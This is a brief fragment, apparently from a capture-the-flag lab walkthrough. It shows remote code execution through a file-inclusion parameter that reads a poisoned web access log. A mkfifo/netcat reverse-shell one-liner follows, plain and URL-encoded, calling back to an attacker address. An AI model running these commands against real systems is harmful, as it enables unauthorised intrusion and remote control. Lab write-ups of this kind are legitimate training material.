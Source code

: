 ![image-20221014210304608](./images/image-20221014210304608.png)

check  rce

```bash
http://10.129.1.254/browse.php?file=/var/log/httpd-access.log&cmd=id
```



![image-20221014210354910](./images/image-20221014210354910.png)

reverse shell



```bash
# not work. &
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.78 9001 >/tmp/f

# delete 2>&1
http://10.129.1.254/browse.php?file=/var/log/httpd-access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+|nc+10.10.14.78+9001+>/tmp/f
```
